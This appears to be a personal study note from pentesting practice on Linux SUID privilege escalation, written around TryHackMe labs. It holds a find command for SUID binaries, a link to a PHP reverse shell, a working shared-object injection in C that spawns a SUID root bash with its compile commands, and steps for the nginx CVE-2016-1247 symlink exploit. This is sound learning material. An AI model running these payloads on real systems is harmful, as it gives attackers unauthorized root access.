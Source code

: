 SGID
SUID - which allows users to executes file permissions with specified user. The user mentioned in the SUID will run with higher privileges [[Linux Overview#User Privileges]]
STID -

Not everything would under SUID is vulnerable. We have to do the analysis of which file accessing the SUID.
![[Pasted image 20230808110247.png]]
#find 
```shell
find / -perm -u=s -type f -ls 2>/dev/null
```
	-u=s all files owned by the root user
	-type f   mentions filetype

![[Pasted image 20230808110811.png]]

***If the SUID is mentioned in any of the executable binary files, try to cross check with GTFO bins.***

#challenge Vulnversity in TryHackMe

#reverse_shell [PHP_reverse_shell](https://github.com/pentestmonkey/php-reverse-shell)
run the find command with perm of -u=s
if systemctl is implemented with suid. try to explore in the #gtfobins 

#### Other SUID Escalations: 
###### Shared Object Injections:

#find 
1) 
```shell
find / -type f -perm -0400 -ls 2>/dev/null 
```
	-0400  mentions only owner of file have read privileges

![[Pasted image 20230808121027.png]]
![[Pasted image 20230808122827.png|600]]
**suid-so** is looking for some files which doesn't exist in the files or directory. 

From here we can create a injected file in the name of `libcalc.so`  with the same directory.
2) 
```c libcalc.so
#include <stdio.h>
#include <stdlib.h>
static void inject() _attribute_((constructor));

void inject(){
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
	this will create a bash file in the name of libcalc.so

3) `mkdir /home/user/.config`
4) 
```shell
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/libcalc.c
```

If does it looks for any file name `libcalc.so`. we will get pop out shell of bash with root. because the suid is running on the root.
	
[[Strace]]

![[Pasted image 20230808121712.png|400]]
![[Pasted image 20230808121726.png]]

##### Binary Symlinks:
#symboliclinks - A file contains a reference to another file or directory in the absolute form of relative path.
#References [[Linux Overview#Hard Links & Soft Links]]

**Nginx** - http and reverse proxy server.
	Issue in the vuln is permission of the log have been created by nginx 
	[CVE-2016-1247](https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html)
		Basically this vuln point outs the symbolic link of malicious file to log file.
How this works? 
	nginx version should be < 1.6.2
	sudo should have privileges as run as root
1) He logged in as low level user in the machine as (www-data)
2) then used LinuxExploit suggester on the machien. it suggests the machine vuln with CVE-2016-1247.
3) downloaded the CVE exploit and run it in the machine. Actually the CVE looks for the admin to restart the nginx server with rotating the error log.
		![[Pasted image 20230808142612.png|600]]
4)  Using the command, restarting the server by rotating the log file.
		![[Pasted image 20230808142400.png]]
